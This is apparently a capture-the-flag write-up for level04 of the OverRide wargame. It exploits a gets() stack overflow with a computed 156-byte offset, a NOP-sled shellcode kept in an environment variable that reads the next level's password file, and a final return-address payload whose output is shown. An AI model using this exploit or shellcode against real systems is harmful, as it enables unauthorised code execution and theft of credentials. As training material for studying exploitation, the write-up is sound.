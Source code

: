 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
Dump of assembler code for function main:
[...]
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
```
According to the disassembly, offset is `0xb0 - 0x20 + 0x8(padding) + 0x4(ebp) = 0x9c(156)`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>

int main(void)
{
	printf("0x%08x\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
